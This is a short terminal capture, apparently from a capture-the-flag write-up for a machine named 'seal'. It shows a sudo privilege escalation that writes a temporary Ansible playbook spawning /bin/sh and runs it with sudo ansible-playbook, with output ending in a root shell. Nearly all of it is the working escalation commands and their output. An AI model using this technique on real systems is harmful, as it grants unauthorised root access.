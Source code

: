 ```shell
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ********************************************************************************************************************************************************************************************

TASK [Gathering Facts] **************************************************************************************************************************************************************************************
ok: [localhost]

TASK [shell] ************************************************************************************************************************************************************************************************
# whoami
root
```
